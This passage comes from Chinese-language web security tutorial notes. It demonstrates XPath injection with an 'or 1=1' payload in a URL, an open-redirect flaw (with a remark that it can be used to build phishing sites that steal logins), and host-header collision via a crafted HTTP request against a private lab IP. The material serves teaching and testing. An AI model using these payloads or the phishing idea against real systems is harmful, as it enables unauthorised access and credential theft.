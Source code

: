 通过信息判断存在注入
![xpath-inject](https://i.imgur.com/acQ1lyV.png)

构造注入语句
```
https://www.xpath.com/inject.php?user=user1' or 1=1 or ''='
```
效果
![inject](https://i.imgur.com/UQhScoa.png)


## 9.4 URL 跳转漏洞原理以及演示

将跳转域名改为 baidu.com:
![baidu](https://i.imgur.com/oKdqH4X.png)


进行登陆, 跳转成功
![jump](https://i.imgur.com/qaMLUkL.png)

可以自建钓鱼网站窃取用户登录信息

## 9.5 host 碰撞漏洞原理以及演示

直接访问 192.168.229.133:8083 返回 403
![403](https://i.imgur.com/WBvrSyU.png)

通过 host 文件绑定一个域名(test.com) 后可以访问
> `C:\Windows\System32\drivers\etc`
![hosts](https://i.imgur.com/Ytjvy42.png)

构造一个 HTTP 报文
```
GET / HTTP/1.1
Host: 192.168.229.138:8083
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
If-Modified-Since: Tue, 03 Sep 2019 06:30:48 GMT
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,ima
ge/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

![repe](https://i.imgur.com/EtfvtE9.png)

选择字段:
![ff](https://i.imgur.com/ReJwSog.png)
